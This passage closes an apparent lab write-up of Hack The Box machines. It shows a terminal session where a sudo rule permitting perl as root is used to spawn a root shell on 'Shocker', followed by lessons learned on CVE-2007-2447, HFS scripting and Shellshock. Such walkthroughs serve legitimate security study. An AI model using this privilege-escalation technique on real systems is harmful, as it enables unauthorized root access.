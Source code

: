 ```
$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
$ sudo perl -e 'exec "/bin/sh";'
whoami
root
```

## Lessons Learned
This round of TJNull boxes provided excellent opportunities for review.

* Lame
    * This was my first exposure to CVE-2007-2447.
    * It was also a nice reminder that SMB shares that allow `anonymous` access do not always contain files that will lead to a foothold. Instead, the service itself can be vulnerable!
* Optimum
    * This was the first time that I needed to use HFS scripting, and the syntax was not immediately intuitive to me.
* Shocker
    * While I have encountered the Shellshock vulnerability previously, the name of the script file(s) in `/cgi-bin/` differed. This reinforced the importance of thorough content discovery/directory busting.